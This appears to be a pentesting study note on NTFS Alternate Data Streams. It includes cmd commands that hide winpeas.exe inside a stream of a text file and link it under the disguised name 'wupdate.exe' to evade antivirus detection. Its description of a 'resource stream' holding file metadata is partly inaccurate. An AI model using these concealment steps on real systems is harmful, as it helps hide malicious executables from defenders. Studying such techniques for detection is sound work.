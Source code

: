 # Alternate Data Streams

### **Alternate Data Streams (ADS)**

* Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
* Any file created on an NTFS formatted drive will have two different forks/streams:
* Data stream - Default stream that contains the data of the file.
* Resource stream - Typically contains the metadata of the file.
* Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.
* This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.
* This technique is usually used to evade basic signature based AVs and static scanning stools.



### **Practical Demonstration**

In Windows cmd prompt shell.

```powershell
# we create a test.txt file in the cmd prompt shell
# requires admin priv though.
notepad test.txt

# when we right click on the file, then click the details tab, we see the details/resource stream of the file.
# we can basically hide a malicious payload within the resourse stream.
# so that whenever we execute the file we can specify we want to execute the malicious payload.
notepad test.txt:secret.txt  # Creates a hidden .txt file within the resource stream of test.txt (secret.txt) is the hidden file.
# notice when we launch the "test.txt" file, we dont see the content of the "secret.txt" file.
# and it also doesnt show in the "details" of the file.
# but i can view it by specifying the file in the resourse stream.
notepad test.txt:secret.txt  # outputs the content of the secret file.

# we can redirect the content of our payload file into the resource file of a legitimate file.
type winpeas.exe > file.txt:winpeas.exe

# an attacker will enter some data into the "file.txt" file, then it appears to have some sort of content in it.
# Now we have to create a symboloc link to enable us start the payload file automatically.
# mklink <randomLegitmateFIleName> <path_to_hiddenPayload_file>:<actual_payload_fileName>
mklink wupdate.exe C:\Temp\file.txt:winpeas.exe

# whenever we type "wupdate" it will run the "wineas.exe" file automatically.
wupdate
```



